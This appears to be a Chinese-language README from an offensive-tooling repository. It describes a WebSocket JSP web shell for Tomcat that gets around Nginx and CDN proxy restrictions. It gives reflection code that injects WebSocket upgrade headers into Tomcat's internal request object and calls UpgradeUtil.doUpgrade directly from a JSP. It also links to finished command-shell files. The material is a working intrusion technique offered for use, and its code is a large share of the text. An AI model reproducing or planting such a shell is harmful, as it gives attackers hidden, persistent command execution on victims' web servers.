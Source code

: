 # 无需注入，可以绕过Nginx、CDN代理限制的 WebSocket jsp马

之前提到过可以向 WsServerContainer 容器内 添加ServerEndpointConfig 来注册WebSocket内存马，这样即有好处也有弊端，好处是内存马无落地文件，不好的地方是容易受限制无法使用。于是，我最近改写了下脚本的内容，直接取jsp内的request进行协议升级，从而不需要进行注册路径等操作，增加了HttpServletRequest的Header，使其可以在Nginx代理默认配置下使用

Nginx默认代理配置本身是不支持WebSocket协议的，需要修改 /etc/nginx/conf.d/nginx.conf，增加 proxy_set_header 内容，网上也可以搜到许多资料，其实就是增加了两个文件头，并未做其他处理。

那其实我们完全可以在Server端拦截request自己添加文件头来支持WebSocket

```java
    private void SetHeader(HttpServletRequest request, String key, String value){
        Class<? extends HttpServletRequest> requestClass = request.getClass();
        try {
            Field requestField = requestClass.getDeclaredField("request");
            requestField.setAccessible(true);
            Object requestObj = requestField.get(request);
            Field coyoteRequestField = requestObj.getClass().getDeclaredField("coyoteRequest");
            coyoteRequestField.setAccessible(true);
            Object coyoteRequestObj = coyoteRequestField.get(requestObj);
            Field headersField = coyoteRequestObj.getClass().getDeclaredField("headers");
            headersField.setAccessible(true);
            MimeHeaders headersObj = (MimeHeaders)headersField.get(coyoteRequestObj);
            headersObj.removeHeader(key);
            headersObj.addValue(key).setString(value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    SetHeader(request,"Connection","upgrade");
    SetHeader(request,"Sec-WebSocket-Version","13");
    SetHeader(request,"Upgrade","websocket");
```

通过添加这三个文件头，Tomcat就可以通过后续的doUpgrade校验了

```java
if (!headerContainsToken(req, Constants.CONNECTION_HEADER_NAME,
        Constants.CONNECTION_HEADER_VALUE)) {
    resp.sendError(HttpServletResponse.SC_BAD_REQUEST);
    return;
}
if (!headerContainsToken(req, Constants.WS_VERSION_HEADER_NAME,
        Constants.WS_VERSION_HEADER_VALUE)) {
    resp.setStatus(426);
    resp.setHeader(Constants.WS_VERSION_HEADER_NAME,
            Constants.WS_VERSION_HEADER_VALUE);
    return;
}
key = req.getHeader(Constants.WS_KEY_HEADER_NAME);
if (key == null) {
    resp.sendError(HttpServletResponse.SC_BAD_REQUEST);
    return;
}
```

Tomcat 是通过org.apache.tomcat.websocket.server.UpgradeUtil.doUpgrade 来把http协议升级为WebSocket

那把需要的内容传入进去，即可完成jsp文件连接WebSocket的功能

UpgradeUtil.doUpgrade(container, request, response, configEndpoint, pathParams);

绕过代码：[https://github.com/veo/wsMemShell/blob/main/BypassNginxCDN/cmdbypass.jsp](https://github.com/veo/wsMemShell/blob/main/BypassNginxCDN/cmdbypass.jsp)

绕过方式二代码：[https://github.com/veo/wsMemShell/blob/main/BypassNginxCDN/cmdbypass2.jsp](https://github.com/veo/wsMemShell/blob/main/BypassNginxCDN/cmdbypass2.jsp)
